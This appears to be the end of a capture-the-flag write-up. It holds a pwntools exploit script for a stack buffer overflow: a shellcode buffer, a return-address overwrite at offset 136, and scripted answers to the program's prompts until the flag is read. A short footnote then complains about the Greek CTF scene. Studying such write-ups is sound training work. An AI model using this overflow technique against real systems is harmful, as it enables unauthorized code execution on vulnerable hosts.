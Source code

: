 ```python
# PIE:      No PIE (0x400000)
# Stack:    Executable
# RWX:      Has RWX segments

shellcode = '' # shellcode placeholder

payload1 = fit({
    0: shellcode
    }, filler=cyclic(92), length=92)
print(hexdump(payload1))

payload2 = fit({
    136: p64(0x40090c)
    }, filler=asm(shellcraft.nop()), length=400)
print(hexdump(payload2))

io = start()

# shellcode = asm(shellcraft.sh())
# payload = fit({
#     32: 0xdeadbeef,
#     'iaaa': [1, 2, 'Hello', 3]
# }, length=128)
# io.send(payload)
# flag = io.recv(...)
# log.success(flag)

pause()

io.recvuntil(b'> ')    # receive everything and wait for prompt
io.sendline(payload1)  # send payload1 at the `Is everything clear? (y/n)` question
io.recvuntil(b'> ')    # continue receiving and sending data until the 5th question 
io.sendline(b'y')
io.recvuntil(b'> ')
io.sendline(b'y')
io.recvuntil(b'> ')
io.sendline(b'y')
io.recvuntil(b'> ')
io.sendline(b'y')
io.recvuntil(b'> ')
io.sendline(b'y')
io.recvuntil(b'> ')
io.sendline(b'y')
io.recvuntil(b'> ')
io.sendline(b'y')
io.recvuntil(b'> ')
io.sendline(b'y')
io.recvuntil(b'> ')
io.sendline(b'y')
io.recvuntil(b'> ')    # `Well, maybe a last one and then we finish!` prompt
io.send(payload2)      # send payload2
flag = io.recvall()
log.success(flag)
#io.interactive()
```


[^Rant]: And ok, yeah, it was not a big event, nor was the CTF any larger. But only 3 solves? What's the play here? Everybody else is killing it out there in CTFs and IRL, and we are doing what exactly? Yes, there are teams from GR that are having success in global events, of course. But how are these teams seeded if in entry level events we are failing at the obvious? How is this not a problem, both for the scene and the security industry altogether?